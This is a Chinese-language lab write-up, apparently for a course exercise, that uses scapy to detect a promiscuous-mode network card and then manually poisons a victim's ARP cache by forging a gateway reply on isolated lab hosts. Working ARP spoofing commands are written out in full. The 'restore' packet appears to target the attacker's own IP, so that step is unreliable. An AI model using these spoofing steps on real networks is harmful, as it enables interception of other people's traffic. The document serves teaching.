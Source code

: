 # 第四次实验

## 实验要求

网络监听

## 实验过程

### 网络拓扑

![拓扑图](./img/拓扑图.png)
- 网关
  - 172.16.111.1/24 enp0s9
- 攻击者主机
  - 172.16.111.112/24 eth0
- 受害者主机
  - 172.16.111.111/24 eth0
  
### 实验准备

#### 安装scapy

在攻击者主机上提前安装好 scapy 。
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```
![安装](./img/安装1.png)
![安装](./img/安装2.png)

### 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```
![混杂](./img/混杂.png)
```
# 在攻击者主机上开启 scapy
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.111")
```
![scapy](./img/scapy.png)
```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```
![promisc](./img/promisc.png)
```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.111")
```
![对比](./img/对比.png)
```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 scapy 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```
![访问网关](./img/访问网关.png)
```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.111
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![发送包](./img/发送包.png)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
```
ip neigh
```
![查看受害者](./img/查看受害者.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:d5:81:93", pdst="172.16.111.112", hwdst="08:00:27:0e:34:8d")
sendp(restorepkt1, count=100, inter=0.2)
```
![发送](./img/发送.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![检查](./img/检查.png)